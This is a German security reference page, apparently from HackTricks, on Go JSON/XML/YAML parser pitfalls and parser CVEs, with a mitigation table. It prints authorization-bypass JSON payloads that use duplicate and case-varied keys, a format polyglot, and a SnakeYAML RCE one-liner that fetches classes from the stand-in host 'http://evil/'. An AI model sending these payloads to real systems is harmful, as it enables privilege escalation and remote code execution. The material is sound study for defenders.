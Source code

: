 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Die folgenden Probleme wurden im Go JSON festgestellt, obwohl sie auch in anderen Sprachen vorhanden sein könnten. Diese Probleme wurden in [**diesem Blogbeitrag**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/) veröffentlicht.

Go’s JSON-, XML- und YAML-Parser haben eine lange Liste von Inkonsistenzen und unsicheren Standardeinstellungen, die ausgenutzt werden können, um **Authentifizierung zu umgehen**, **Berechtigungen zu eskalieren** oder **sensible Daten zu exfiltrieren**.

### (Un)Marshaling Unerwarteter Daten

Das Ziel ist es, Strukturen auszunutzen, die es einem Angreifer ermöglichen, sensible Felder zu lesen/schreiben (z. B. `IsAdmin`, `Password`).

- Beispielstruktur:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Häufige Schwachstellen

1. **Fehlendes Tag** (kein Tag = Feld wird standardmäßig weiterhin geparst):
```go
type User struct {
Username string
}
```
Nutzlast:
```json
{"Username": "admin"}
```
2. **Falsche Verwendung von `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Nutzlast:
```json
{"-": true}
```
✔️ Richtige Methode, um ein Feld vom (De)Serialisieren abzuhalten:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Parser-Differenzen

Das Ziel ist es, die Autorisierung zu umgehen, indem man ausnutzt, wie verschiedene Parser dasselbe Payload unterschiedlich interpretieren, wie zum Beispiel:
- CVE-2017-12635: Apache CouchDB Umgehung über doppelte Schlüssel
- 2022: Zoom 0-Klick RCE über XML-Parser-Inkonsistenz
- GitLab 2025 SAML-Umgehung über XML-Eigenheiten

**1. Doppelte Felder:**
Go's `encoding/json` nimmt das **letzte** Feld.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Andere Parser (z. B. Javas Jackson) können die **erste** nehmen.

**2. Groß-/Kleinschreibung:**
Go ist nicht case-sensitiv:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Sogar Unicode-Tricks funktionieren:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-Service-Mismatch:**
Stellen Sie sich vor:
- Proxy, geschrieben in Go
- AuthZ-Dienst, geschrieben in Python

Angreifer sendet:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python sieht `UserAction`, erlaubt es
- Go sieht `AdminAction`, führt es aus


### Datenformatverwirrung (Polyglots)

Das Ziel ist es, Systeme auszunutzen, die Formate (JSON/XML/YAML) mischen oder bei Parserfehlern offen bleiben, wie z.B.:
- **CVE-2020-16250**: HashiCorp Vault analysierte JSON mit einem XML-Parser, nachdem STS JSON anstelle von XML zurückgegeben hatte.

Angreifer kontrolliert:
- Den `Accept: application/json` Header
- Teilweise Kontrolle des JSON-Körpers

Der XML-Parser von Go analysierte es **trotzdem** und vertraute der injizierten Identität.

- Ausgeklügelte Payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
- **Go JSON** Parser: `Action_2` (nicht groß-/kleinschreibungsempfindlich + letzter gewinnt)
- **YAML** Parser: `Action_1` (groß-/kleinschreibungsempfindlich)
- **XML** Parser: parst `"Action_3"` innerhalb des Strings

---

## Bemerkenswerte Parser-Sicherheitsanfälligkeiten (2023-2025)

> Die folgenden öffentlich ausnutzbaren Probleme zeigen, dass unsicheres Parsen ein Problem in mehreren Sprachen ist – nicht nur ein Go-Problem.

### SnakeYAML Deserialisierung RCE (CVE-2022-1471)

* Betroffen: `org.yaml:snakeyaml` < **2.0** (verwendet von Spring-Boot, Jenkins usw.).
* Grundursache: `new Constructor()` deserialisiert **willkürliche Java-Klassen**, was Gadget-Ketten ermöglicht, die in der Ausführung von Remote-Code enden.
* One-Liner PoC (öffnet den Rechner auf dem anfälligen Host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Minderung:
1. **Upgrade auf ≥2.0** (verwendet standardmäßig `SafeLoader`).
2. Bei älteren Versionen explizit `new Yaml(new SafeConstructor())` verwenden.

### libyaml Double-Free (CVE-2024-35325)

* Betroffen: `libyaml` ≤0.2.5 (C-Bibliothek, die von vielen Sprachbindungen genutzt wird).
* Problem: Das zweimalige Aufrufen von `yaml_event_delete()` führt zu einem Double-Free, den Angreifer in DoS oder in einigen Szenarien in Heap-Ausnutzung umwandeln können.
* Status: Vom Upstream als „API-Missbrauch“ abgelehnt, aber Linux-Distributionen haben das gepatchte **0.2.6** ausgeliefert, das den Zeiger defensiv null-freigibt.

### RapidJSON Integer (Unter|Über)-lauf (CVE-2024-38517 / CVE-2024-39684)

* Betroffen: Tencent **RapidJSON** vor dem Commit `8269bc2` (<1.1.0-patch-22).
* Fehler: In `GenericReader::ParseNumber()` lässt nicht überprüfte Arithmetik Angreifern zu, riesige numerische Literale zu erstellen, die sich umwickeln und den Heap beschädigen — was letztendlich eine Privilegieneskalation ermöglicht, wenn der resultierende Objektgraph für Autorisierungsentscheidungen verwendet wird.

---

### 🔐 Minderung (Aktualisiert)

| Risiko                               | Fix / Empfehlung                                         |
|--------------------------------------|---------------------------------------------------------|
| Unbekannte Felder (JSON)            | `decoder.DisallowUnknownFields()`                       |
| Duplizierte Felder (JSON)           | ❌ Kein Fix in der stdlib — validieren mit [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Groß-/Kleinschreibung-unabhängige Übereinstimmung (Go) | ❌ Kein Fix — validieren Sie Struktur-Tags + vor-kanonicalisieren Sie Eingaben |
| XML-Garbagedaten / XXE              | Verwenden Sie einen gehärteten Parser (`encoding/xml` + `DisallowDTD`) |
| YAML unbekannte Schlüssel            | `yaml.KnownFields(true)`                                |
| **Unsichere YAML-Desserialisierung** | Verwenden Sie SafeConstructor / Upgrade auf SnakeYAML ≥2.0 |
| libyaml ≤0.2.5 Double-Free          | Upgrade auf **0.2.6** oder distro-gepatchte Version    |
| RapidJSON <gepatchter Commit        | Kompilieren Sie gegen die neueste RapidJSON (≥Juli 2024) |

## Referenzen

- Baeldung – „Behebung von CVE-2022-1471 mit SnakeYAML 2.0“
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
